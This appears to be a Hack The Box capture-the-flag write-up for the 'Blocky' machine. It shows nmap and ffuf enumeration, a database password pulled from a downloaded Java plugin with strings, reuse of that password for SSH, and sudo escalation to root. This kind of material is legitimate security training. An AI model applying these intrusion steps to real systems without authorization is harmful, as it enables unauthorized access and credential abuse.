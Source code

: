 ```yaml
---
tags:
  - linux
---
```

# HTB: [Blocky](https://app.hackthebox.com/machines/Blocky)

## Enumeration

```console
$ nmap -n -sCV -A -T4 -p1-65535 -v $t
[...]
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

The target is running a Wordpress site:

![](_/htb-blocky-20231004-1.png)

Web content discovery via `ffuf`:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://blocky.htb/FUZZ
[...]
[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 146ms]
| URL | http://blocky.htb/
    * FUZZ: 

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 100ms]
| URL | http://blocky.htb/wiki
| --> | http://blocky.htb/wiki/
    * FUZZ: wiki

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 107ms]
| URL | http://blocky.htb/wp-content
| --> | http://blocky.htb/wp-content/
    * FUZZ: wp-content

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 98ms]
| URL | http://blocky.htb/plugins
| --> | http://blocky.htb/plugins/
    * FUZZ: plugins

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 102ms]
| URL | http://blocky.htb/wp-includes
| --> | http://blocky.htb/wp-includes/
    * FUZZ: wp-includes

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 104ms]
| URL | http://blocky.htb/javascript
| --> | http://blocky.htb/javascript/
    * FUZZ: javascript

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 103ms]
| URL | http://blocky.htb/wp-admin
| --> | http://blocky.htb/wp-admin/
    * FUZZ: wp-admin

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
| URL | http://blocky.htb/phpmyadmin
| --> | http://blocky.htb/phpmyadmin/
    * FUZZ: phpmyadmin

[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 145ms]
| URL | http://blocky.htb/
    * FUZZ: 

:: Progress: [87651/87651] :: Job [1/1] :: 141 req/sec :: Duration: [0:04:38] :: Errors: 0 ::
```

The `/plugins` directory is serving two files:

![](_/htb-blocky-20231004-2.png)

I download them to my machine and run `strings` on the Java class:

```console
$ strings BlockyCore.class 
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
[...]
```

`root`, `localhost`, and `8YsqfCTnvxAUeduzjNSXe22` are interesting.

I find a username `notch` via a Wordpress post:

![](_/htb-blocky-20231004-3.png)

## Exploitation

Trying the username and password credentials for `ssh` yields success:

```console
$ ssh notch@$t
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
[...]
notch@Blocky:~$ cat user.txt
fb7682[...]
```

## Privilege Escalation

The user has `root` privileges via `sudo`:

```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su -
root@Blocky:~# cat /root/root.txt
d90ffb[...]
```

